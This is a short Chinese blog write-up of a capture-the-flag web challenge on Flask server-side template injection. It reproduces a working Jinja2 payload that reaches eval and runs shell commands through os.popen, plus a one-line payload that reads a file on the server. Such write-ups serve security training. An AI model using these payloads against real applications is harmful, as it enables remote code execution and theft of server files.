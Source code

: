 ```yaml
---
title: 攻防世界 WEB Web_python_template_injection
categories:
  - ctf
tags:
  - 信息安全
abbrlink: 57753
date: 2020-01-18 13:25:19
---
```




# 0x00 - 题目描述

![](.md_img/20200118132746.png)


<!-- MORE -->


# 0x01 - 解题过程

打开是单一网页，注释中也没有其他提示。

![](.md_img/20200118132924.png)



通过百度得知，是要利用 flask 模板的代码注入漏洞。就例如下面这种

![](.md_img/20200118133342.png)



这是某大神已经写好的远程执行漏洞，在popen里填入指令就行了。

```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

效果如下

![](.md_img/20200118133907.png)

![](.md_img/20200118133951.png)





# 0x02 - 技术总结

这道题属于 **SSTI——服务端模板注入攻击** ，其实在 `Chrome` 的 `Hackbar` 中有测试载荷。



**SSTI** 读取文载荷

```python
[].__class__.__base__.__subclasses__()[40]('fl4g').read()
```



